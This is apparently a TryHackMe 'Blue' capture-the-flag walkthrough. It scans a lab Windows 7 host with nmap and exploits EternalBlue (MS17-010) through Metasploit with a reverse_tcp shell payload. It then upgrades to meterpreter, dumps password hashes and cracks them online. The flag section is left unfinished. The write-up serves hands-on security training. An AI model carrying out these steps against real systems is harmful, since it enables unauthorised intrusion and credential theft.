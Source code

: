# BLUE
> 4lch3my | March 26, 2023
-------------------
#### This is a machine that allows you to practise web app hacking and privilege escalation
#### [Room Link](https://tryhackme.com/room/blue)

## Tasks
##### 1. Recon
  Scan and learn what exploit this machine is vulnerable to.

<br>

To start, I use [nmap] which is default option on the personal Kali install I have. We start with a basic command `nmap -sC -sV -A MACHINE_IP`
The `-sC` flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The `-sV` probes all open ports it finds to determine if we can get the service/version information. `-A` outputs in aggressive mode, so we can follow along with the commands and enumeration.
In our NMAP results we get:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 18:10 UTC
Nmap scan report for MACHINE_IP (MACHINE_IP)
Host is up (0.00046s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-03-26T18:11:44+00:00
|_ssl-date: 2023-03-26T18:11:59+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2023-03-25T18:04:55
|_Not valid after:  2023-09-24T18:04:55
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:7D:FF:18:E3:75 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 1 hop
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows .
Nmap done: 1 IP address (1 host up) scanned in 86.79 seconds
```

We can see multiple ports open, but the first thing what my eyes are drawn to is port `445` where a `Windows 7` service is running - `microsoft‑ds`. After a quick google around for `microsoft‑ds`, UI realized this is part of the famous `MS17-010` exploit titled `EternalBlue`. This is a vulnerability posted by Microsoft back in 2017 for vulnerable SMB v1 remote code execution issues. Now that we have what the machine is vulnerable to, time to actually exploit it

##### 2. Gain Access

Right away, let's start `metasploit` a common and very powerfull vulnerability exploiter tool. This can be started with the `msfconsole` command. 

<br>

Now, we can search for the `EternalBlue` vulnerability to see if there is a built in module for this in the tool. This cna be run with: `search eternalblue`

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_eternalblue.PNG?raw=true)

To select it, we can run: `use exploit/windows/smb/ms17_010_eternalblue`

And we can see what needs to be chnaged inside of the modeule with the `options` command:

msf exploit(ms17_010_eternalblue) > options

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_options.PNG?raw=true)

As we can see, we need to set the `RHOSTS` option, so the exploit can run automatically. We can do this by simply adding:

``` 
set RHOSTS 10.10.182.90
``` 

Also, as requested by the room owner, we will set the paylod to `reverese_tcp`:

``` 
set payload windows/x64/shell/reverse_tcp
``` 

Time to run the exploit:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_run.PNG?raw=true)                                                                              

And there we go, we have access to the machine. On to Task 3
                                                                                              

##### 3. Escalate

The previously gained shell can now be background with the `CTRL + Z` command,  so we can continue down the rabbit hole.

<br>

And now we will convert our shell to a `meterpreter shell` right inside of `metasploit`! How exiting!

Run the command `search shell_to_meterpreter`:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mmfs6_shell_to_met.png?raw=true)

Then `use post/multi/manage/shell_to_meterpreter` & list the sessions with `sessions`:

<br>

Switch:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_sessions.png?raw=true)

And listing sessions: 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_sessions2.png?raw=true)

Then `show options`:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_show_options.png?raw=true)

Then `set SESSION 1` & run this upgraded exploit:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade.png?raw=true)

Verify that it was successfull:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade_sessions.png?raw=true)

And the last step, to actually switch to this upgraded `meterpreter` shell:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade_sessions_verify.png?raw=true)

If you want to switch to a Powershell/Windows CMD shell, you can do by simple running: `shell`.

<br>

WOW! That was a mouthfull of infornmation! We can switch to the service `conhost.exe` OR `cmd.exe` on the machine for the verfication as well

##### 4. Cracking

After migration to one of the following services `conhost.exe` OR `cmd.exe` in task 3, we can now dump the passwords using the `hashdump` command:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs5_hash.png?raw=true)

To crack our users password we can use a site like [THIS ONE](https://crackstation.net/) to do the task for us automatically.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/pasword.png?raw=true)

##### 5. Find flags!

1st flag

A of description > C:\Windows\System32

2nd flag



3rd flag
